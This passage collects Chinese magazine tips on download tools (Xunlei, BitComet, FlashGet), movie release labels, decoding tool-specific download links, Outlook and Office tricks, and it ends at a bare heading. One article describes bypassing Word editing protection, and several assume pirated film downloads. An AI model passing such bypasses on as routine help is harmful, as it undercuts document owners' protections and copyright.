这里的P指的是Peer (地位、伙伴之意，也可理解为Point<点>)，S指的是Server，即服务器。P2S也就是“点到服务器”的意思，P2S资源，指的就是传统的HTTP、FTP下载方式。因为本书中的其他文章，会详细介绍到P2P下载 (电驴、BT等)，所以本文仅介绍一下传统的P2S下载。

#### 1.迅雷简单下载

P2S资源很简单，一般是有人将资源放到专门的HTTP或FTP服务器上，然后对外公开下载地址。使用下载软件 (快车、迅雷等) 直接下载就可以了，下载也很简单 (这里以迅雷为例)，如果下载地址是直接以链接的形式给出了，右键点击，在弹出的快捷菜单中选择“使用迅雷下载”的命令就可以了。如果不是以链接的形式给出的，只是一个文本形式的地址，将其复制后，在下载软件中执行“新建→新建任务”命令，在打开的对话框中，将复制的地址粘贴到“网址”右侧的文本框中即可 (见图1)。



#### 2.迅雷批量下载

一些电视剧节目，在遇到下载地址是连续数字的电视剧资源时，都可以使用迅雷批量下载。

这里假设得到的下载地址如下：
http://61.*.*.6:8002/langman/01.rmvb
……

http://61.*.*.6:8002/langman/16.rmvb

在迅雷中执行“新建→新建批量任务”命令，在打开的对话框中，将下载地址粘贴到URL框中，然后将01使用 (*) 代替，下方设置为“从00到16”，通配符长设为2，这时在下方的内容框中可以看到真正的下载地址 (见图2)，点击“确定”下载即可。



#### 3.迅雷FTP下载

碰到FTP资源时，特别是提供了用户名和密码的FTP资源时，下载并不是很简单，在建立下载任务时还需要设置一下。当好心人在论坛上提供FTP资源下载时，一般会给出如下格式的信息：

下载地址：ftp://64.*.*6.102:163/ca/mov/hyfyII/Half.Past.Dead.2.2007.DVDRip.XviD.rmvb

用户名：***
密码：***

在“建立新的下载任务”对话框中，将下载地址粘贴到“网址”右侧的文本框中以后，在下方的“下载设置”标签中勾选“登录到服务器”选项，然后在下方分别填写“用户名”和“密码”。另外，对于FTP资源建议勾选“原始地址使用单线程”项 (见图3)。设置完毕，点击“确定”下载就可以啦。



### BT常见小技巧

文/李云峰

与电驴相对应的，另一项非常火的P2P下载就是BT。BT技术起步比电驴早，也因此BT下载技术似乎比电驴的要更成熟一些，BT下载软件的使用也要简单得多，并且使用默认设置大多数情况下都能获得很好的下载速度。

BT下载软件中，好的非常多，这里推荐BitComet（http://www.bitcomet.com）和比特精灵（http://www.167bt.com）这两款软件。由于这两款软件在BT下载方面已经做得非常成熟了，这里对它们的基本使用就不多说了。具体使用方法非常简单，找到BT资源后，将种子文件下载回来后，直接使用BT下载软件打开种子文件即可添加下载任务，然后就是等着软件进行下载了。下面以BitComet为例，介绍一些BT下载中的技巧，以便我们更好的BT。

#### 技巧1：未下载完视频观看更方便

现在的很多播放器都支持播放BT未下载完成的视频文件，但BitComet未下载完成的文件都有.bc!后缀，使用播放器播放时非常不方便。

在BitComet中执行“工具→选项”命令，在打开的“选项”对话框中单击左侧的“任务设置”，然后在右侧取消“给未完成的文件添加.bc!后缀”项的选择，然后“确定”即可。这样再使用BitComet下载视频文件时，就不会再添加.bc!后缀了，直接双击未下载完的视频文件也可以调用播放软件进行观看了。

#### 技巧2：让BitComet自动给下载的文件杀毒

虽然BT资源丰富、下载速度快，但也有一些不怀好意的人利用了这一点，在发布一些资源时顺便捆绑一些病毒、恶意软件程序，这样在下载的过程中很容易对电脑造成威胁。

BitComet支持自动调用杀毒软件对下载的内容进行查、杀病毒操作，在“选项”对话框中，单击左侧的“病毒保护”，然后在右侧勾选“下载完成后杀毒”选项，最后单击浏览按钮定位杀毒软件主程序即可（见图）。



#### 技巧3：BT下载不留安全隐患

为了提升下载速度，BitComet在运行时会自动打开Windows防火墙中的端口，但默认情况下程序退出时并没有关闭打开的端口，这就在一定程度上给系统增加了危险系数。

在“选项”对话框中，单击左侧的“网络连接”项，然后在右侧勾选“退出时删除NAT和防火墙端口”项，从而保证在程序退出后所打开的端口也同时关闭，让系统更加安全。

另外需要注意的一点就是，内网用户需要开启路由器的UPnP功能，从而保证更好的下载速度。BitComet的默认设置即支持UPnP功能，因此只要保证路由器中的UPnP功能开启即可实现高速下载。

### 山寨WPS图文符号库

文/朱立民

化学金排是一个和Word配合使用的工具软件，它里面集成了大量的化学仪器图形，大大方便了化学教师的办公，但它却不能用在WPS文字中，对于使用WPS文字办公的教师就只能望而兴叹了。经过我的反复研究，下面的方法就可以将化学金排中的各种装置图移植到WPS文字办公软件中来。

首先，安装化学金排，默认安装完成后，在“C:\Program Files\HXJP\内部素材”文件夹中就可以看到化学金排的全部仪器图库了，只须将这些图库文件夹让WPS2007文字调用就可以了。

打开WPS文字办公软件，从“工具”菜单中选择“自定义”，在自定义对话框的“工具栏”页面，点击“新建”按钮，并命名为“化学仪器”，这时在WPS文字窗口中就会出现一个“化学仪器”工具栏，但此时的工具栏内无任何按钮；接下来进入“命令”页面，命令栏中选择“普通工具栏”，再点击窗口右下方的“+”号按钮，这时在会出现一个“新菜单”选项，双击此选择，把标题修改为“化学仪器”，这时在窗口左侧就会出现“化学仪器”选项了，同时WPS文字窗口的新的工具栏名称也变为“化学仪器”了。

有了化学仪器选项，选择“化学仪器”选项，并单击自定义窗口右侧下方的“+”按钮，在右侧命令栏中会出现“新按钮”选项，双击“新按钮”来定义按钮标题，按钮位图、显示方式、控制快捷键等功能。在“命令绑定”中，单击“选择→插入图片”，这时在出现的插入图片对话框中，打开化学金排安装后的文件夹“C:\Program Files\HXJP\内部素材”，并选择相对应仪器名称的图片，一个仪器工具按钮就生成了；依次添加下去，一个化学仪器工具栏也制作完成。如果以后调用的话，只须打开WPS文字窗口的“视图→工具栏→化学仪器”就会出现“化学仪器”工具栏，单击化学仪器工具栏上的仪器按钮，一个常用的化学仪器图形就会出现在WPS文字的主窗口页面中。

### 见名知片，巧识视频清晰度

文/李云峰

经常下载电影的都知道，同一部影片，即便是同样的AVI或者RMVB格式，不同地方下载的影片质量相差非常大。当一部新影片刚出来时，总是有很多人同时发布资源，在众多的资源中如何快速有效地找到高质量的影片呢？除影片本身的实际质量好坏外，主观上的判断技巧则完全隐藏在资源的标题当中。

不论是下载电驴资源还是BT资源，大家对下图所示的情况一定不会陌生，图中各个标题中基本上都会包含BD-RMVB、HD-RMVB、DVDRip、Xvid等字样，这些标识到底有什么含义？下面让我们一一揭开它们的神秘面纱。



#### 小体积高清的王者——DVDRip

DVDRip表示其资源是从最终版的DVD中进行转制而来的，后面的 “.Xvid” 表示在转制过程中采用的编码器，通常情况下，使用Xvid编码器转换出来的文件为AVI格式。最终的文件大小一般只有几百MB，是DVD体积的数分之一，更有利于网上传输。

简单点理解，DVDRip是一种DVD备份技术，是一种将DVD的音频、视频、字幕剥离出来，再经过压缩或其他处理，然后重新合并生成为单一多媒体文件的技术。而DVDRip-RMVB就表示以最终版的DVD资源来源，然后通过Real编码器重新编码制作成了RMVB格式。

> 小提示
> ★将DVD资源通过相应的编码器进行转制后，得到的最终资源（如AVI格式）将不包含DVD本身的菜单导航、分段选择等DVD特性。
> ★DVDRip-RMVB，则表示使用Real编码器从原版DVD中进行转制，最终的文件格式一般为RMVB。相对于AVI格式来说，RMVB拥有更好的压缩率，但在一些影片细节方面则不如AVI表现突出。

#### HD、BD——高清来袭

与前两年大家在追求DVDRip相比，近两年在各大资源发布站点，细心的朋友一定早就发现了，HD、BD开始逐渐活跃起来，并且迅速成为大家追捧的对象，那么什么是HD、BD呢？

HD是High Definition（高清晰度）的缩写，通常情况下把物理分辨率达到720P以上的格式称作为高清。而物理分辨率达到1920×1080的，也就是常说的1080P，即人们常说的全高清（Full HD），也是目前的高清最高规格。

在下载资源中标有HD的，通常指的是视频源是HDTV，即高清电视。因此对于BT资源来说，可以将HD说成是HDRip（HDTVRip的缩写），也就是先使用专用设备对HDTV信号进行录制，然后通过编码压缩技术对HDTV的视频图像进行高质量压缩，然后将视频、音频部分封装成一个AVI或MKV文件。由于国内HDTV环境尚未成熟，因此常见到的HDRip内容都是国外的，如目前热门的《越狱》第四季便是HDRip的结果，也因此在资源标题中可以看到HDTV-RMVB字样，表示视频来源为HDTV，使用Real编码压制为RMVB格式。

BD是Blu-ray Disc（蓝光光盘）的缩写，BD利用波长较短的蓝色激光读取和写入数据，因此而得名。蓝光光盘极大地提高了光盘的存储容量，也是目前为止最先进的大容量光存储格式，能够在一张光碟上存储25GB～50GB的文档或视频数据。
传统DVD的容量4.7GB（单面双层DVD可达到8.5GB容量），已经不能满足单碟存储一部高清电影的要求。BD因此诞生，BD目前可以达到单面单层25GB，单面双层50GB的容量。有着大存储容量的支撑，可以轻松存储达到HD标准的影片，也因此BD已逐渐成为高清电影的载体。

在下载资源中标有BD的，也就是指BDRip，即表明视频来源为BD，然后通过不同的编码器压制而成，最终的格式常见为AVI、MKV、RMVB。

> 小提示
> 与BD相竞争的原本还有HD DVD，HD DVD可以实现单面单层15GB，单面双层30GB的存储容量，由HD DVD推广协会负责定制开发，向下兼容DVD。HD DVD与BD可以说是两个标准的竞争，在2008年2月19日，随着东芝总裁西田厚聪正式宣布终止HD DVD事业后，高清碟片的竞争最终以蓝光光碟的胜利划下了句号。

在网上下载资源时，除了HDRip、BDRip外，Remux资源也渐渐多了起来。Remux是指通过某些软件，把蓝光光盘中的正片音频、视频数据提取出来，并打包到视频“容器”中，这个容器通常是AVI，在这个过程中，没有对AVI文件进行重新编码，因此视频质量与蓝光光盘里面的是一样的。除此之外还有一些带有Re标记的，一般是经过Remux后对视频文件进行了重新编码，通常是为了减少视频文件的体积，当然在这个过程中，画质也会有所损失。

#### CAM、TS——高清要打假

除了常见的DVDRip、BD、HD外，CAM、TS、TC也是常见的资源类型。其中CAM是用DV（数码摄像机）直接从电影院偷拍（盗录）的，也就是常说的枪版。由于电影院环境嘈杂，并且在盗录的过程中，DV也会出现抖动的情况，因此枪版基本上是质量最差的影片类型。CAM版的影片一般出现在某部大片刚刚上映时，如果不是特别的追新者，不建议下载CAM版。

TS在性质上与CAM类似，只是声音来自外置音源（一般情况下是影院坐椅上为听力不好的人设置的耳机插孔），有些盗录者会选择上座率较少的电影院或投影室进行录制，质量稍好于CAM版。



TC版是使用专用的机器直接从电影胶片中进行数字拷贝得到的，由于其图像未进行最终的数字编辑与修饰，所以质量上与DVD相比还是有一定差距的。不过在原版DVD正式发行前，TC基本上是最好的选择了，常说的“清晰版”大多数时候指的就是TC版。

> 小知识：想要找到高质量的电影，下载前了解一下网络上流行的视频格式，会有很大帮助。
> ★RM/RMVB，掀起网络影视潮流
> RM是RealMedia的缩写，它在保证视频质量的情况下，尽可能地增大压缩的比率。RMVB是RealMedia Variable Bitrate的缩写，它是RM的升级版，其中VB是指可变动的位元率（Variable Bitrate），也就是我们常说的“码率”。在视频画面变动不大的片段降低位元率，在画面变动较大的片段提高位元率，这样就在文件大小与画面质量之间取得一个平衡。一般情况下，同样位元率或是同一视频在同样的文件大小情况下，RMVB格式的影片画质会比RM格式的画质好。
> ★AVI，让人欢喜让人忧
> AVI是Audio Video Interleave的缩写，它将视频和音频封装在一个文件里，并且允许音频同步于视频播放。不过AVI格式，因为其压缩标准不统一，经常会遇到不能正常播放的情况，如不能调节播放进度，或者是只有声音没有图像等。遇到这种情况时，需根据播放器给出的错误提示安装相应的解码器来解决。
> ★MKV，高清时代的宠儿
> MKV格式是近两年互联网上才出现的视频文件格式，它是Matroska格式中的一种。Matroska封装格式定义了三种类型的文件：MKV是视频文件，它里面可能还包含有音频和字幕；MKA是单一的音频文件，但可能有多条及多种类型的音轨；MKS是字幕文件。由于MKV对其封装的媒体文件编码格式非常宽松，可以是常见的DivX、Xvid，甚至可以是RealVideo，且是完全开放的封装格式，因此得到广大用户的喜爱。

### 下载地址的“解密”与“加密”

文/重庆/陈佳

我曾经遇到过这样的境况：下载某电影时，找到的链接是“迅雷下载”，由于当时未安装迅雷，结果无法下载。将链接地址复制到其他下载软件里仍然未果，显然这一地址是被加密重定向了，只有指定软件才能识别它下载地址的庐山真面目。类似的我还遇到过“快车下载”等链接，这问题困扰了我很长时间，直到发现一个在线小工具后，一切才变得豁然开朗。

这里以迅雷下载链接为例。首先在QQ上求助，让装有迅雷软件的网友帮忙点击某软件的迅雷下载链接，跳出迅雷下载窗口，复制迅雷“网址”栏里的地址（见图1）。在获取这一地址后，我再打开“迅雷，快车加密解密”页面（http://tool.zhongguoren.cn/tool/xunleikuaiche/），将刚刚获取的地址粘贴到页面中的“输入”栏内，点击“解密”按钮，在“原始地址”下已经可以看到欲下载软件的真实链接了。复制下真实的原始地址后，要怎么下载，用什么工具下载就随便我了，不会再受到专属下载工具的限制了（见图2）。



> 小提示：这一在线工具还支持下载链接加密，你也可以借助它制作一个加密的下载链接：将欲下载文件的真正下载地址复制到“输入”框内，点击“加密”，“迅雷地址”、“快车地址”、“QQ旋风地址”地址即刻呈现于眼前。点击它们尝试下载，就会弹出相应的下载工具来（见图3）。





注意：要复制保留加密的地址，请右击地址，选择“复制快捷方式”，而不要直接复制显示出来的地址。因为如果地址太长，显示的地址已经被缩写了，直接复制得到的地址将不完整。

好。不是特别的追新者，也不推荐。

### 快车3里的新技巧

知名下载工具快车（FlashGet）已升级到3.0，其中增加了一些实用而且有趣的新技巧，好好利用可以使下载更方便。

#### 技巧1：用好任务分组功能

默认设置下，快车3.0会将下载回来的文件按照不同的扩展名分门别类进行存储，不过你可能会由于种种原因重新指定了存储路径，或者使用的是公用计算机，或者转移了存储路径，那么就需要重新选择已完成下载任务的分组方式。

单击工具栏“分组”按钮，如图1所示，从下拉菜单中可以选择按照“时间”或“目录”进行分组，前者可以按照下载时间进行管理，后者可以按照保存目录进行管理，无论选择何种分类方式，仍然可以按照文件名、大小、文件类型、分类、完成时间等进行排序，这样无论是查看或管理显然是轻松多了。



#### 技巧2：自定义下载规则

进入主界面之后，可以看到左侧导航窗格中已经自动创建了软件、音乐、影视、其他等四个下载类别，如果下载文件的扩展名符合相应类别的规则，那么会自动进入相应的存储路径，当然我们仍然可以按照自己的需要自定义新的下载规则。

从“工具”菜单下依次打开“选项→任务管理→分类规则”对话框，在这里可以对现有分类规则进行重新编辑，例如增加或删除扩展名，确认之后即可生效。如果需要创建新的分类规则，那么首先需要从主界面的“完成下载”文件夹下新建一个新的分类，然后才可以在如图2所示的对话框中新建规则，在输入扩展名时请以空格进行分隔，确认之后即可将新的分类规则添加到“分类规则”列表框中。



#### 技巧3：回归经典

如果你仍然留恋于经典的1.x版本的操作风格，那么可以按照下面的方法进行操作。

分块图表：看着一个一个的小方块快速地被覆盖，那种感觉实在是非常的好！虽然默认设置下只会以“任务信息”的形式进行显示，不过我们只需要从下载窗口中切换到“下载分块图示”选项卡，即可获得分块图表的效果，这样就可以清晰地看到每个进程的下载进度了。

导入导出数据库：“文件”菜单下提供了导入数据库、导出数据库等两项命令，执行后可以按照向导的提示完成相关操作。

从服务器获取文件的日期：对于从原始地址发布的软件，我们总是希望获得原始服务器的时间。默认设置下，这个功能已经被自动启用，当然你也可以打开“选项→下载设置→HTTP/FTP”对话框，在这里取消相关选项。

当然，快车3.0提供的新功能还有很多，例如车牌系统、透明悬浮窗、任务分组、资源中心、智能预下载等，感兴趣的朋友可以多多研究。

### 在Office 2007中让Office按钮动起来

Office 2007界面的左上角新增了一个Office按钮，其功能和“文件”菜单差不多，单击后会有新建、打开、保存、另存为、打印等功能供我们选择使用。当鼠标指针指向这个按钮时，它的背景会由浅蓝变成麦黄，其实我们还可以修改一下，让其即使鼠标不指向时也能在这两种背景间不停的转换。

1. 单击“开始→运行”，在打开的运行窗口中输入regedit回车或点“确定”打开注册表编辑器。

2. 在左侧栏中依次找到并单击HKEY_CURRENT_USER\Software\Microsoft\Office\12.0\Common\General分支，然后到右侧的窗口中找到并双击OfficeMenuDiscovered项，在打开的“编辑DWORD（32位）值”窗口中将其值改为0，最后点“确定”退出并关闭注册表编辑器。再次打开Office 2007时，其左上角的Office按钮就会不停的“闪烁”起来。

## 用好快车的“车库”

文/王志军

快车（FlashGet）除了提供强大的下载和管理功能之外，还为每位“车友”提供了相应的“车库”，我们可以通过车库在线管理自己的网络资源，而且操作相当简单。如果你已经拥有自己的车牌（如果没有的话，可以按照提示注册快车通行证后免费领取），也可以从快车主程序的“车库”菜单下选择“去我的车库”，或者在浏览器中直接访问“http://new.kuaiche.com/”，此时需要手工键入车库的账号和密码才能登录，登录后可以看到在页面右侧的“控制面板”下提供了信息中心、实用工具集两方面的内容（见图1）。



### 技巧一：发布资源也要简单化

从“实用工具集”下选择“我的资源”，此时会自动打开“资源列表”页面，切换到“发布资源”面板，我们可以看到图2所示的页面，这里默认使用所谓的“资源达人”模式，对于初级用户来说，建议选择“傻瓜模式”，这样操作更为简单一些。按照要求填写这里注明为“*”的项目：

资源名：中英文均可。

资源链接或上传种子：请输入资源的下载链接，或者直接上传种子文件。

资源的分类：直接选择即可。

至于其他的内容，你可以根据自己的需要决定是否填写，最后单击页面底部的“发布”按钮，很快就可以发布成功，然后即可查看所发布的资源。或者，你也可以通过快车的客户端程序发布资源，从“车库”菜单下选择“发布资源”，同样可以进入资源发布页面。



### 技巧二：任务列表再不怕丢失

默认设置下，快车会自动开启任务列表备份功能，当然前提是你已经使用车牌成功登录。从“车库”菜单下打开“任务列表备份工具”窗口，这里会显示快车自动备份的任务列表，即使已经从“完成下载”文件夹中删除相应的内容，甚至已经清空“回收站”，我们依然可以在这里恢复任务列表并重新下载（见图3），是不是很神奇？如果你愿意的话，可以切换到“时间还原点”创建更可靠的还原点，以后可以利用事先创建的还原点进行恢复。

如果由于某些原因不方便使用快车客户端程序访问任务列表，那么可以通过浏览器进入车库，从“实用工具集”下选择“备份列表”，这里同样可以查看任务列表中的资源信息，当然也可以重新下载相关的资源。当然，车库的功能还有很多，朋友们不妨细细挖掘。



## Office文件保护不用别的也能破

文/王皓

CFan在2009年第1期介绍了用WPS破解Word文档保护的方法。但如果我没装WPS，岂不是没辙了？并非如此。我提供三种办法解决文档保护问题。

### 方法一

另存为文件，保存格式为Works 6.0-9.0 (*.wps)，保存一下，似乎还无法编辑。关闭这个文档，再用Word的打开文件，选择“所有格式”，就能找到这个文件了。打开它的文件试试看，没问题了吧。注意，切忌直接双击，这样可能会打不开。

不过这种方法也有缺陷，那就是一些Word格式就没了，比如说水印之类的。这方法也可以用Word来打开WPS文件，但这时WPS里的一些格式就没了。

### 方法二

新建文档，在插入选项卡找到“文本→对象→文本中的文字”（Word 2003版本请找“插入文档”），找到那个加密的文件确定，你会发现，你要的东西都进来了，但排版会和原来略有不同。

### 方法三

如果你只要文字，连排版都不要的话，可以在“Office按钮→另存为→PDF”（也可能是PDF或XPS，或者XPS，如果没装此功能项可以去微软网站下载），然后打开那个PDF文件，把文字拷贝出来就行了。但如果原文件有页眉、页脚（如页码），则不要选择此方法，否则你还要一页一页的删掉这些没有用的东西。

相信这些方法可以帮你临时破解保密的Office文档，但如果你需要经常做这项工作或者对文档格式保真度有要求，还是建议选择Office Password Remover。

## 巧用Outlook为工作提速
文/越野苍狼

现代社会，处理邮件无疑是平时最重要的工作之一，而在企业中应用最广的邮件处理软件，则非微软Office Outlook莫属。工作最重要的是效率，没有了效率就没有了一切。Outlook功能非常强大，既然用了就要尽可能地将它的功能发挥到极致，从而让Outlook更好地为我们提高工作效率。

### 实例1：给Outlook排活，让邮件自动收取

上班期间，邮件比较多，但又不知道邮件会在什么时候来，如何才能及时地收取邮件呢？将这个任务交给Outlook自己无疑是最好的选择。这样让Outlook负责收取，我们只负责查看就行了。

在Outlook中执行“工具→选项”命令，在打开的“选项”对话框中，切换到“邮件设置”标签，勾选“联机情况下，立即发送”项，然后单击右侧的“发送/接收”按钮，在打开的对话框中，可以设置自动收发邮件的时间间隔，为了邮件尽可能地及时，我设置了每20分钟收发一次，然后单击“关闭”、“确定”按钮即可完成自动收取邮件的设置。

### 实例2：看着日历过日子，工作全局在心中

要想工作效率高，必须做到凡事有计划。比如本周重点要完成的工作，下个月有哪几项课题需要完成的等。以前很多人都喜欢在本子上排计划，但是时间一久就容易忘记，也懒得去翻看本子，这样就容易造成有计划无执行的情况，最终的计划也只是成了一个摆设。而利用Outlook排计划则可以很好地解决传统手工计划时遇到的问题。

在Outlook中，单击左侧的“日历”标签切换到“日历”工作视图，在右侧日历任务空格中，可根据实际情况添加相应的任务事件等。将鼠标指针在日历表上悬停时，稍等之后会出现“单击可添加约会”字样，单击即可添加事项安排（见图1），或者右键单击日历区域，在弹出的快捷菜单中选择相应的项目进行事项添加。



计划日程排定好后，回到“邮件”功能界面，单击“邮件文件夹”下方的“个人文件夹”，这时在右侧便会显示整个“个人文件夹”的概览，这其中便包含设定的日历事件，通过设置日历事件，在这里就可以一览全局，从而从整体上把握工作的进度。

有了日历非常方便，但是也许我们并不喜欢日历的默认设置，30分钟的时间间隔，普通的背景色，以及单一的时区。其实这些都是可以设置的，让日历也个性化一下。

### 小提示

- ★使用Outlook Connector添加了Hotmail或者Live邮件的话，Hotmail、Live中的日历也会被添加到Outlook中来，在Outlook的“我的日历”中勾选相应的项，在右侧便会显示日历内容。
- ★执行“工具→选项”命令，在打开的“选项”对话框中，单击“日历选项”按钮，然后在打开的“日历选项”对话框中提供了在非常丰富的设置选项，如更改背景色、启用“农历”备用日历、添加时区等。

### 实例3：好记性不如烂笔头，特殊任务要提醒

通过在日历添加总的工作计划是很不错，但如果排定的计划忘记了怎么办呢？特别是某天的某一时间段需要参加某一重要会议，这种情况忘记了，影响就大了，因此如果有人能在会议之前15分钟或10分钟提醒我们一下就好了，这样就不会出现忘记参加会议的情况了。

在Outlook中切换到“任务”功能界面，双击右侧空白区域打开任务设置窗口，在任务窗口中填写任务的相关属性，比较重要的是设置好任务的开始、结束日期，并且要勾选“提醒”项，并设置好提醒的时间（见图2），单击右侧的小喇叭图标还可以设置提醒时播放的声音文件。



按上图设定好，5月5日的上午10点，便会弹出提示窗口，直到用户作出反应，否则该提示窗口会一直出现在屏幕上。有了这样的提醒，所有的重要事务、相关会议，只要提前设置好任务并且调整好提醒的时间，就不怕自己遗忘了。

设置任务的另一个好处也很明显，经过一段时间之后，可以对自己近一段时间来的工作进行一番梳理，查看自己所计划任务的完成情况（见图3）。

### 实例4：公私邮件，泾渭分明

虽然说上班期间时间是属于公司的，不能干“私活”，但偶尔收发一下私人邮件也没什么。不过在收邮件时，最好能将公司邮件和私人邮件分开存放。虽然Outlook没有直接实现这个功能，但稍微动下小脑筋就可以了。

在Outlook中可以设置邮件规则，从而让符合某些特定条件的邮件按照设定的条件进行存放，这里要利用的便是这一点。

**第一步：** 在Outlook的个人文件夹下方为其中的一个账号建立一个文件夹，如“私人邮件”。

**第二步：** 执行“工具→规则和通知”命令，在打开的对话框中单击“新建规则”按钮。在“规则向导”对话框中选择从空白规则开始下方的“邮件到达时检查”并单击“下一步”。

**第三步：** 在“步骤1：选择条件”中选择“收件人电子邮件地址中包含特定词语”项，然后单击下方的“特定”词语，在弹出的“查找文本”对话框中，输入电子邮件账号并单击“添加”按钮使其进入“搜索列表”，单击“确定”按钮返回，再次单击“下一步”。

**第四步：** 在“如何处理该邮件？”界面中，选择“将它移动到指定文件夹中”，然后单击下方的“指定”，在打开的对话框中选择“私人邮件”，单击“确定”按钮返回，最后单击“完成”按钮完成规则的添加。

经过这样设置之后，以后收到私人邮件时，邮件会自动移动到“私人邮件”文件夹中，这样就可以和公司邮件区分开了，不仅不影响工作邮件，查看起来也更加方便。

> **小提示：**
> * 按照上述方法建立一个“领导邮件”的文件夹，然后建立一条邮件规则，设定领导发来的邮件都自动移动到“领导邮件”文件夹，这样可以防止漏看领导的邮件而把领导交待的任务给忘了。
> * 当收到某个人的邮件，又想对该发件人建立一条邮件规则时，可以直接在邮件列表中右键单击该邮件，在弹出的快捷菜单中选择“创建规则”，然后在打开的对话框中选择执行相应的操作。
> * 除了将符合条件的邮件移动到特定文件夹外，Outlook的邮件规则功能非常强大，设置不同的条件可以实现一些个性化的操作，比如某人邮件到达的特殊提醒方式，有兴趣的朋友可以多琢磨一下邮件规则。




### 实例5：邮件“类别”好处多

日常工作总会有不同类型的事务需要处理，或者是同时参与几个项目。而这些事务或项目都是只会持续一小段时间的，对于这类邮件如果全部建立邮件规则的话未免麻烦了点，这时使用邮件类别就是一个不错的选择。

**第一步：** 单击工具栏中的“分类”按钮（四个色块组成），在打开的菜单中选择“所有类别”。

**第二步：** 默认情况下，系统预置了6个颜色类别，都是以颜色的名称来命名的。可以直接单击“新建”按钮建立新的颜色类别，也可以单击选中某个类别后，再单击“重命名”按钮对现有类别进行重命名。根据目前的实际情况建立相应的颜色类别（见图4）。

| 名称 | 快捷键 |
| --- | --- |
| Cap-2相关 | |
| Cap-3相关 | |
| R/3相关 | |
| 蓝色类别 | |
| 绿色类别 | |
| 紫色类别 | |

**第三步：** 在邮件列表中，右击邮件标题中的类别框，在弹出的快捷菜单中可以为邮件选择合适的类别。



**第四步：** 需要集中查看某一类别的邮件时，单击邮件列表上方的“排序字段”，在打开的下拉菜单中选择“类别”，然后再单击右侧的“升序”、“降序”按钮就可以让各个类别的邮件分别显示在一起了（见图5）。



### 实例6：看新闻不再东奔西走

每天看一下国内外的新闻基本上成了一种习惯了，以往都是去一些网站上直接看新闻，使用Outlook让这一过程变得更加方便了，因此Outlook 2007中引入了RSS功能，在Outlook 2007中，可以通过以下几种方法来添加RSS源。

> **小知识：**
> RSS是Rich Site Summary或Really Simple Syndication的英文首字母缩写，翻译为中文就是“简易信息聚合”。RSS是一种基于XML标准，在互联网上被广泛采用的内容包装和投递协议。RSS是一种描述和同步网站内容的方式，是使用最广泛的XML应用。RSS搭建了信息迅速传播的一个技术平台，使得每个人都成为潜在的信息提供者。发布一个RSS文件后，这个RSS Feed中包含的信息就能直接被其他站点调用，而且由于这些数据都是标准的XML格式，所以也能在其他的终端和服务中使用。RSS为内容发布者提供了一种以标准化格式分发信息的便捷方法。采用标准化的XML文件格式，信息只需发布一次，就可以使用许多不同的程序（如Outlook）来查看。RSS内容的一个常见示例是信息源，例如频繁更新的新闻标题。
> RSS的好处是将来自不同网站（信息源）的所有内容收集在一个位置。通过特定的软件（RSS阅读器、Outlook），不用再访问各个网站就可以获得感兴趣网站的最新信息。通过RSS接收内容摘要，然后通过单击链接来决定要阅读哪篇文章。

#### 方法1：

在“个人文件夹”下方，右键单击“RSS源”项，选择“添加新RSS源”或“导入OPML文件”，然后在打开的对话框中直接输入RSS源地址或者OPML文件即可。

#### 方法2：

执行“工具→账户设置”命令，在打开的“账户设置”对话框中，切换到“RSS源”标签，然后单击“新建”按钮进行添加。

#### 方法3：

执行“文件→导入和导出”命令，在打开的“导入和导出向导”对话框中选择“从OPML文件导入RSS源”项，然后选择OPML文件即可。

★这几种方法添加最终的效果都是一样的，只是导入OPML的方式可以一次性导入多个RSS源。
★OPML是Outline Processor Markup Language的缩写，直接翻译就是“大纲处理标记语言”，实际就是一种语言规范，扩展名为OPML或XML，可以实现RSS的批量订阅，简单点理解OPML文件就是订阅列表文件。

### 实例7：为Outlook启动提速

Outlook 2007随着Office 2007一起，在界面上有了非常大的改观。但是在UI风格变化的同时，Outlook的启动速度相比以前的版本来说也慢了不少。可以尝试下面的方法，加速Outlook的启动。

在Outlook中执行“工具→信任中心”，在打开的“信任中心”对话框中单击“加载项”，然后在右侧最下方，选择管理“COM加载项”，然后单击“转到”按钮，在打开的对话框中，删除不需要的加载项即可（见图6）。



另外还可以将“传真服务”卸载，也可以提升Outlook的启动速度及系统资源占用，如果“传真服务”安装了的话，依次进入“控制面板→添加/删除程序→添加/删除Windows组件”将“传真服务”卸载，也可以提升Outlook的启动速度。

### 实例8：让新邮件自动“签名”

撰写邮件时，一般都会在邮件的末尾填写自己的相关信息，这样才便于收件人准确地知道发件人是谁。因为我们的邮箱就是自己用，每次发送邮件的时候都去撰写邮件签名非常麻烦，Outlook早就替你准备好了这一点，通过设置邮件签名，可以让每次新建邮件或转发邮件时都自动地为邮件签名。

在Outlook中执行“工具→选项”命令，在打开的“选项”对话框中切换到“邮件格式”标签，然后单击对话框中的“签名”按钮，在新打开的“签名和信纸”对话框中单击“新建”按钮，然后在“新签名”对话框中为新签名设置一个名称（可以是任意名称，如果设置多个签名，为了便于记忆，建议填写有意义的名称），然后单击“确定”按钮，这时在“编辑签名”下方的文本框中就可以设置签名的文本内容了，最后在右侧“选择默认签名”区域为新邮件、答复/转发邮件设置相应的签名就可以了（见图7）。



经过以上设置后，在Outlook中，再次创建新邮件时，你会发现，正文的下方已经自动出现刚刚设置的签名内容了。通过签名的设置，对于那些每封信中需要重复的内容来说，就可以做到一次设定，永久使用的效果了。

## 安全模式下拯救受损的Office组件

我们知道，在计算机操作系统中有“安全模式”启动选项，在正常模式中无法执行或者无法打开的时候，可以通过安全模式进入系统，修复系统存在的问题和故障。其实，在Office的组件中也有类似的安全模式，也可以修复软件出现的一些故障。

如果Office组件出现了故障，无法启动，重新安装无疑是万能的方法，但这种方法太耗费时间，一般的小故障完全没有必要如此，我们可以尝试在安全模式下进行解决。在按住Ctrl键的同时，单击开始菜单中的Office组件，会弹出提示对话框，询问是否以安全模式启动，单击“是”按钮，以安全模式成功启动程序。这时，在软件的标题栏中出现“安全模式”的提示文字。

借助安全模式启动Office组件后，可以执行“帮助→检测并修复”菜单命令，弹出检测并修复对话框，如图所示。根据需要勾选“修复时恢复快捷方式”和“放弃自定义设置并回复默认设置”两个复选框中的一个或者两个，单击“开始”按钮，会弹出安装修复对话框，根据提示找到光盘或者硬盘中的备份，进行修复即可。

通过检测并修复命令，可以修复组件出现的一些不太严重的故障，与重新安装相比速度更快，效果更好。因此，如果Office组件再次出故障时，尝试通过安全模式启动，然后再进行修复，是一个不错的选择。

## 嗨，收到邮件请“吭”一声

